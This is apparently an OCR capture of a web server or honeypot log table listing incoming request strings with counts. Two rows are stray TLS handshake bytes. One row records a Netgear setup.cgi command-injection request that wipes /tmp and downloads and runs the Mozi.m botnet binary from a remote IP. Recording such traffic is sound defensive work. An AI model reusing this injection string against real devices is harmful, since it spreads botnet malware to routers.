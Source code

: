 | 154 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xEE\xD8\xFC\x8E\xE4*=\x16\xE6<\x9F\xB0                                                                                                                                                                                                                                                                              |
| 155 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xC9\xDA(n\xC9\xED\xE5\xAD\xA8\x19\x13)}\xD7\xEDNC\xBF[\x1A\x9B\xC2\xCB==\xC5\xC1A\x15)\x0C\x97 L\xB94\xFA\xF7\xA8\xF4\xF2@j\xE0N\xFBD\xFD:\xB4\x22\xC5\xC7\x1F\x05#\x011\xE3s\xD4\x0F\x94Z\xEE\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                   |
| 156 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.49.126.169:48658/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                              |
